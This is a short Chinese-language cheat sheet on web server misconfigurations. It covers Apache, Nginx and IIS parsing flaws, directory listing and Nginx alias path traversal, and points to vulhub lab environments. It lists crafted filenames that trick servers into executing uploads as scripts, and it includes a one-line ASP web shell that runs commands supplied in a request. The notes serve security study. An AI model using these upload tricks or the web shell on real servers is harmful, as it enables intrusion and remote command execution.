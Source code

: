 ```yaml
---
title: Security Misconﬁguration
category: Web Security
date: 2024-3-13
---
```


## Apache解析漏洞

```
# 自行添加了handler
AddHandlerapplication/x-httpd-php.php

使得1.php.xxx #被当成1.php解析

# 靶场环境
vulhub/httpd/apache_parsing_vulnerability
```

## Apache目录遍历漏洞

```
# 允许了目录列出
Options +Indexes +FollowSymLinks +ExecCGI
```

## Nginx目录穿越漏洞

```
# 配置别名时缺少了/

/file ->/home/ 
被构造成:
/file../ ->/home/../

# 靶场环境
vulhub/nginx/insecure-configuration
```

## Nginx解析漏洞

```php
# Nginx <8.03
* **畸形解析漏洞**
xxx.jpg/xxx.php  **# 被当成php解析

# Nginx 0.5 0.6 0.7<=0.7.65 0.8<=0.8.37
* %00解析漏洞
win xxx.jpg%00.php 
Linux xxx.jpg%20%00.php # 被当成php解析**
```

## IIS解析漏洞

```php
# IIS 5.x/6.0 

* 目录解析漏洞
/xxx.asp/xxx.xxx #xxx.asp下的所有后缀类型的文件都会被解析成asp文件
asp一句话木马 <%execute(request("cmd"))%>

* 文件解析漏洞
xxx.php;.jpg # 被当成php文件解析

# **IIS 7.0/7.5**
* **畸形解析漏洞
xxx.jpg/xxx.php # 被当成php解析**
```
